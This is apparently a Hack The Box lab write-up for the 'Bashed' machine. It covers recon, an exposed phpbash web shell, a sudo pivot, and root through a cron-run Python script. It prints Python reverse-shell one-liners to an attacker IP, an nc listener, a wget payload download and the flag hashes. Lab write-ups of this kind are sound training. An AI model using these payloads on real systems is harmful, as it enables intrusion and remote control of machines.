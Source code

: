 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: Bashed
tags: []
---
```

**Start 14:44 05-08-2024**

---

```
10.10.10.68
```

## Nmap recon

### Quick scan
The quick scan shows only port `80`:

```bash
┌──(kali㉿kali)-[~]
└─$ nmap 10.10.10.68
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-04 16:39 IST
Nmap scan report for 10.10.10.68
Host is up (0.019s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.36 seconds
```

### Thorough scan
The more thorough scan yields the same results, only port 80 seems to be open:

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -sT -p- 10.10.10.68
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-04 16:41 IST
Nmap scan report for 10.10.10.68
Host is up (0.023s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.64 seconds
```



## 80/TCP - HTTP

After heading to the website we are greeted with this page:

![](../../../assets/3558d85235143841e3e37782d4a42a46.png)

It appears that it is a site promoting a `phpbash script` developed and tested on the same exact machine we are on. 

![](../../../assets/d079dd3ed5b548b8de141f33082e8343.png)

It shows a screenshot with the endpoint being `/uploads/phpbash.php` so let's try to download the script and try to upload it on the website.

Heading towards [this link](https://github.com/Arrexel/phpbash) we find the instructions as well as the script itself.

![](../../../assets/bbab863ef569ed36c8bda69cf1f1c41d.png)

It's pretty self explanatory to be honest.

==Gobuster==
Next up we'll do a directory enumeration for good measure to find out what endpoints the site has. Let it run for a while, and we find the `/dev` directory which seems interesting to us:

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://10.10.10.68/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.68/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
/server-status        (Status: 403) [Size: 299]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

Heading into the `/dev` directory we find the already working script, which means we don't have to upload it, but just need to click on the `phpbash.php` link and we get a working shell:

![](../../../assets/a4538904907f54e2c59254d1c835cc40.png)

![](../../../assets/14b71bd53e6af764a8619e7e1bda8ea6.png)

In here it is pretty straightforward stuff again.

## Flags

### user.txt
This one is easy as always, head into the `/home` directory where you will find the `arrexel user`, just head into his directory and the `user.txt` flag is there:

![](../../../assets/ecc9da37de59acc22fc2ba10d9cf73fe.png)

```
a2c20510bc6bc08e4446522959067bd3
```

## Privilege Escalation
After this we want to escalate privileges in order to get the `root flag`.
We start of by using `sudo -l` and find out:

![](../../../assets/2c6c95e97445b6d80b4e5dbb51328782.png)

We notice that we can run any and all commands as the user `scriptmanager`. All we need to do now is use [the following technique]():

```bash
sudo -u scriptmanager bash -i
# This will spawn a bash shell and give full read/write access to /scripts
```

But since this does not work in the `phpbash shell` in the web browser we'll have to execute it through our own local machine:

![](../../../assets/c87273a27b8dbe66a4d3bce7dab21bc8.png)

Thus we will have to set up a listener on our local machine:

```bash
nc -lvnp 1234
```

And run this in the web browser:

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.53",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Run it as a one-liner since you cannot yet modify files
```

And after we run everything successfully we can execute the previously mentioned command to escalate privileges:

![](../../../assets/aada2eee56dbdb7f85784a6c2d45ec5d.png)

We now have a folder we can access which we previously could not, namely `/scripts`. In here we find two files, a python file and a `.txt` file:

```bash
scriptmanager@bashed:/home/arrexel$ ls -ld /scripts
ls -ld /scripts
drwxrwxr-- 2 scriptmanager scriptmanager 4096 Jun  2  2022 /scripts
scriptmanager@bashed:/home/arrexel$ cd /scripts
cd /scripts
scriptmanager@bashed:/scripts$ ls -l
ls -l
total 8
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec  4  2017 test.py
-rw-r--r-- 1 root          root          12 Aug  5 06:28 test.txt
scriptmanager@bashed:/scripts$ cat test.txt
cat test.txt
testing 123!
scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ 
```

The interesting part here is that the `test.txt file is owned by root`. I tried editing the file but resulted to writing my own `reverse shell exploit` instead as per [Pentest Monkey's cheat sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) (the Python one).

I just modified it to my own `IP_ADDR`, and made a new file called `test.test.py`:

```bash
import socket,subprocess,os  
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)  
s.connect(("10.10.14.53",1235))  
os.dup2(s.fileno(),0)  
os.dup2(s.fileno(),1)  
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

I then started a `python -m http.server 80` on the `kali machine` and used `wget` to copy the exploit to the server:

```bash
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.68 - - [05/Aug/2024 14:51:55] "GET /test.test.py HTTP/1.1" 200 -
```

```bash
scriptmanager@bashed:/scripts$ wget 10.10.14.53/test.test.py
wget 10.10.14.53/test.test.py
--2024-08-05 06:51:56--  http://10.10.14.53/test.test.py
Connecting to 10.10.14.53:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 224 [text/x-python]
Saving to: 'test.test.py'

     0K                                                       100% 56.1M=0s

2024-08-05 06:51:56 (56.1 MB/s) - 'test.test.py' saved [224/224]
```

And just like the `test.py` file our exploit got executed after waiting for less than a minute and we got a `root shell`:

![](../../../assets/e8738850b9ce0233e6b73d799b4b45a0.png)

### root.txt

```bash
cd /root && cat root.txt
290bce0a28afd1f841d12da429fd2749
```


![](../../../assets/86fe183866b288f567d064df6e5840bc.png)

---
**Finished 15:58 05-08-2024**


[^Links]: [[Hack The Box]] [[OSCP Prep]] 
